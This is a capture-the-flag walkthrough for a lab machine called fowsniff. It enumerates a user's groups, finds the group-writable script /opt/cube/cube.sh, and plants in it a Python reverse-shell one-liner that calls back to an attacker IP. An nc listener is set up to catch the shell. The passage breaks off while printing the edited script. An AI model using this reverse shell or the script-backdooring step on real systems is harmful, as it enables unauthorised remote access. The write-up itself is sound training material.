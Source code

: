 ### Once connected, what groups does this user belong to? Are there any interesting files that can be run by that group?
```
baksteen@fowsniff:~$ ls -la
total 40
drwxrwx---  4 baksteen baksteen 4096 Mar 13  2018 .
drwxr-xr-x 11 root     root     4096 Mar  8  2018 ..
-rw-------  1 baksteen users       1 Mar 13  2018 .bash_history
-rw-r--r--  1 baksteen users     220 Aug 31  2015 .bash_logout
-rw-r--r--  1 baksteen users    3771 Aug 31  2015 .bashrc
drwx------  2 baksteen users    4096 Mar  8  2018 .cache
-rw-r--r--  1 baksteen users       0 Mar  9  2018 .lesshsQ
drwx------  5 baksteen users    4096 Mar  9  2018 Maildir
-rw-r--r--  1 baksteen users     655 May 16  2017 .profile
-rw-r--r--  1 baksteen users      97 Mar  9  2018 term.txt
-rw-------  1 baksteen users    2981 Mar 13  2018 .viminfo
baksteen@fowsniff:~$ cat term.txt 
I wonder if the person who coined the term "One Hit Wonder" 
came up with another other phrases.
baksteen@fowsniff:~$ id
uid=1004(baksteen) gid=100(users) groups=100(users),1001(baksteen)
baksteen@fowsniff:~$ 
```
Using _find / -group users -type f 2>/dev/null_ we can find files owned by users group.
I found an interesting file named: _/opt/cube/cube.sh_
```
baksteen@fowsniff:~$ find / -group users -type f 2>/dev/null
/opt/cube/cube.sh
/home/baksteen/.cache/motd.legal-displayed
/home/baksteen/Maildir/dovecot-uidvalidity
/home/baksteen/Maildir/dovecot.index.log
/home/baksteen/Maildir/new/1520967067.V801I23764M196461.fowsniff
/home/baksteen/Maildir/dovecot-uidlist
/home/baksteen/Maildir/dovecot-uidvalidity.5aa21fac
/home/baksteen/.viminfo
/home/baksteen/.bash_history
/home/baksteen/.lesshsQ
/home/baksteen/.bash_logout
/home/baksteen/term.txt
/home/baksteen/.profile
/home/baksteen/.bashrc
```
This file that can be edited by the group and we can add a reverse shell in it. Here I used the reverse shell given in the room: <br>
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((<IP>,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
I set the ip address to my attacker's ip and set up a listener: _nc -lvnp 1234_ <br>
```
baksteen@fowsniff:~$ nano /opt/cube/cube.sh
baksteen@fowsniff:~$ cat /opt/cube/cube.sh
printf "
                            _____                       _  __  __  
      :sdddddddddddddddy+  |  ___|____      _____ _ __ (_)/ _|/ _|  
   :yNMMMMMMMMMMMMMNmhsso  | |_ / _ \ \ /\ / / __| '_ \| | |_| |_   
.sdmmmmmNmmmmmmmNdyssssso  |  _| (_) \ V  V /\__ \ | | | |  _|  _|  
-:      y.      dssssssso  |_|  \___/ \_/\_/ |___/_| |_|_|_| |_|   
-:      y.      dssssssso                ____                      
-:      y.      dssssssso               / ___|___  _ __ _ __        
-:      y.      dssssssso              | |   / _ \| '__| '_ \     
-:      o.      dssssssso              | |__| (_) | |  | |_) |  _  
```